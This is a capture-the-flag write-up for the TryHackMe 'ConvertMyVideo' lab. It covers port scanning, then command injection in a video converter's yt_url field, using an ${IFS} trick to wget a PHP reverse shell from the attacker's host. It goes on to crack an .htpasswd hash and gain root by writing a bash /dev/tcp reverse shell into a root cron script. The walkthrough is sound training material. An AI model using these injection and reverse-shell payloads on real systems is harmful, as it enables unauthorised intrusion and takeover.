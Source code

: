 # THM - ConvertMyVideo

#### Ip: 10.10.10.79
#### Name: ConvertMyVideo
#### Rating: Medium

----------------------------------------------------------------------

![convert.png](../assets/convertmyvideo_assets/convert.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ sudo nmap -p-  --min-rate 10000 10.10.13.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 13:51 CDT
Warning: 10.10.13.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.13.182
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 651bfc741039dfddd02df0531ceb6dec (RSA)
|   256 c42804a5c3b96a955a4d7a6e46e214db (ECDSA)
|_  256 ba07bbcd424af293d105d0b34cb1d9b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

Heading over to the site we find a page that appears to be a video converter. 

![site.png](../assets/convertmyvideo_assets/site.png)

And it appears to error out when anything is entered:

![wrong.png](../assets/convertmyvideo_assets/wrong.png)

Let's capture this in Burp so we can take a closer look at what is going on here.

Here I entered 'hey!' into the field and captured it in Burp. It looks like it is in fact making a POST request, and is appending the entered info into youtube.com. 

Playing around with this field a bit more, I tried entering in `id` into the field and saw that we have code execution here!

![id.png](../assets/convertmyvideo_assets/id.png)

Lets try something more malicious with this now. 

### Exploitation

Lets bring a copy of php-reverse-shell.php to our working directory and update the IP address and Port fields:

![php.png](../assets/convertmyvideo_assets/php.png)

We can now set up both a Netcat listener as well as a Python http server. Heading back into Burp we can update the `yt_url` field with: `wget${IFS}http://10.6.61.45/php-reverse-shell.php` (${IFS} is a built in Bash variable standing for Internal Field Separator. This lets us account for the space in the command)

Checking back in the terminal our Python logs show the command worked and the file was downloaded.

```text
┌──(ryan㉿kali)-[~/THM]
└─$ python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.13.182 - - [27/Jul/2023 14:29:16] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

We can now navigate to http://10.10.13.182/php-reverse-shell.php and catch a reverse shell back in our listener.

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ nc -lvnp 443               
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.13.182] 32874
Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:30:59 up 46 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
dmv
```

We can grab the first flag in the `/var/www/html/admin` directory:

![user_flag.png](../assets/convertmyvideo_assets/user_flag.png)

Also of interest here are two hidden files. Let's check those out:

```text
www-data@dmv:/var/www/html/admin$ cat .htaccess
AuthName "AdminArea"
AuthType Basic
AuthUserFile /var/www/html/admin/.htpasswd
Require valid-user
www-data@dmv:/var/www/html/admin$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

Cool, looks like we've found some credentials. Copying the hash back to my attacking machine I can quickly crack it with JohntheRipper:

![hash.png](../assets/convertmyvideo_assets/hash.png)

But it doesn't appear I can use the credential anywhere locally. 

```text
www-data@dmv:/var/www/html/admin$ cd /home
www-data@dmv:/home$ ls
dmv
www-data@dmv:/home$ su dmv
Password: 
su: Authentication failure
www-data@dmv:/home$ su root
Password: 
su: Authentication failure
```
Lets keep poking around.

### Privilege Escalation


Based on the credential username, I navigated to `/admin` in the browser and logged in with the discovered credentials. There I found a "Clean Downloads" button. Checking out the source code we find:

![clear.png](../assets/convertmyvideo_assets/clear.png)

Interesting, lets check that out in the shell we have. 

```text
www-data@dmv:/var/www/html/tmp$ cat clean.sh
rm -rf downloads
```

Because this file is owned by root, and it's purpose is to just clear out directories, I'm wondering if it is a cronjob.

Lets write to it a reverse shell using:

```text
echo "bash -i >& /dev/tcp/10.6.61.45/53 0>&1" > clean.sh
```

And wait with a listener on our attack box.

Nice! We've caught a shell back as root!

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ nc -lvnp 53                
listening on [any] 53 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.215.88] 40476
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# whoami
whoami
root
root@dmv:/var/www/html/tmp# hostname
hostname
dmv
```

Lets grab that last flag:

![root_flag.png](../assets/convertmyvideo_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
